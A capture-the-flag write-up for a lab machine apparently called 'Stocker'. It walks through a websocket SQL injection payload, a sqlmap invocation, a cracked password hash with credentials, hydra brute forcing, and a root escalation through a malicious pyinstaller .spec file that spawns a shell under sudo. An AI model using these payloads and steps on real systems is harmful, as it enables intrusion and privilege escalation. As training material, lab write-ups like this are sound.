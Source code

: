 # Stocker

## Analysis

- nmap scan reveals open ports `80`, `22` and `5789`
  - ssh version `OpenSSH 8.9p1 Ubuntu 3ubuntu0.1`
  - webserver running `Apache httpd 2.4.52`
    - website allows to create QR codes which contain custom text
    - Seems to be a python `flask` server
    - it also is possible to upload images, which then will be scanned to extract the text from the QR code
    - tested payloads for LFI and RCE, but did not work
  - open port `5789` is a websocket server
      - connected to it via `python3 -m websocket qrcode.htb:5789`
      - websocket uses JSON data

- directory enumeration
  - `/report` allows to send a report to the team
  - `/reader` reads a given QR code


## Solution

### User flag

The websocket connection is vulnerable to a SQL injection:
```bash
# Valid requests
{"version": "0.0.2"} # ok
{"version": "0.0.3"} # does not exist
# SQLi request
{"version": "0.0.3\" or 1=1; --"}
```

To exploit this via sqlmap, a proxy is needed (see ``sqlmap_server.py``).
Then use the following command to exploit the vulnerability:
```
sqlmap -u "http://localhost:8081/?data=0.0.1" --prefix'"'
```

- This dumps a user table containing a user `admin` with a password hash.
Decode MD5 hash `0c090c365fa0559b151a43e0fea39710` with hashcat yields password `denjanjade122566`.
Can not login with this password, because the username is probably not `admin`.
- The database dumps also show that the administrator is named `Thomas Keller`. 
Used tool `username-anarchy` to get potential usernames.#
- Used `hydra` with usernames generated by `username-anarchy` to get ssh access.
Valid credentials are `tkeller/denjanjade122566`


### System flag
- User `tkeller` can run `/usr/local/sbin/build-installer.sh` as root (`sudo -l`)
- This script is a wrapper for `pyinstaller` and can be used to create a binary from a python script.
- The script checks if the input file ends with `.spec` and if it does, it is executed with `pyinstaller`
  (`.spec` files contain python code which is executed by `pyinstaller`).
- Thus, we can create a malicious `sh.py.spec` file which provides a shell:
```python3
import pty
pty.spawn("/bin/sh")
```
- Then, we can run our malicous spec file with the following command to obtain a root shell:
```
sudo /usr/local/sbin/build-installer.sh build sh.py.spec
```